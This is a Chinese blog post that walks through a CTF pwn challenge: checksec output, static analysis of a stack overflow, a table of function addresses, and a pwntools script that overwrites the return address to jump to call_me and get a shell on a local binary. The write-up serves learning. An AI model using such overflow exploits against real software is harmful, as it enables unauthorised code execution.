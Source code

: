 ```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:      CTF-Pwn1 				# 标题 
subtitle:   Hello Eutopia's Blog #副标题
date:       2023-10-08 				# 时间
author:     Eutopia 						# 作者
header-img: img/post-bg-6.jpg 	#这篇文章标题背景图片
catalog: true 						# 是否归档
tags:								#标签
    - CTF
    - PWN
    - 逆向
    - 栈溢出

---
```


# CTF-Pwn1

- 首先使用`checksec`工具进行检查：

![checksec](/img/posts/2023-10-08-pwn1/images/checksec.png)

![file](/img/posts/2023-10-08-pwn1/images/file.png)

​		可以发现，`pwn1`程序为32位，仅开启了DEP保护，动态链接。

- 然后使用ida64打开进行静态分析，可见`stack_overflow`函数存在漏洞，可以进行栈溢出攻击。

`main`：

![main](/img/posts/2023-10-08-pwn1/images/main.png)

`stack_flow`：

![stack_flow](/img/posts/2023-10-08-pwn1/images/stack_flow.png)

`call_me`：

![call_me](/img/posts/2023-10-08-pwn1/images/call_me.png)

​		另外，发现内部有`call_me`函数，可知需要通过栈溢出覆盖返回地址为`call_me`函数地址。

- 上述函数地址：

| 函数名       | 地址       |
| ------------ | ---------- |
| `main`       | 0x080484C2 |
| `stack_flow` | 0x08048494 |
| `call_me`    | 0x0804846B |

- 使用gdb工具进行调试，可以查看栈的情况。![stack](/img/posts/2023-10-08-pwn1/images/stack.png)
- 构造python脚本进行动态调试：

`python`：

```python
from pwn import *

context(arch="i386", log_level="debug")
p = process("./pwn1")

call_me = 0x0804846B
leave = 0x080484C0

retn = 0x080484F4
payload = flat(b'a'*(0x28), retn, call_me)
p.recvuntil("Please finish pwn1!")
gdb.attach(p, 'b *0x080484C0')
p.send(payload)

p.interactive()
```

- 最终成功执行`call_me`函数，获取shell。

![result](/img/posts/2023-10-08-pwn1/images/result.png)

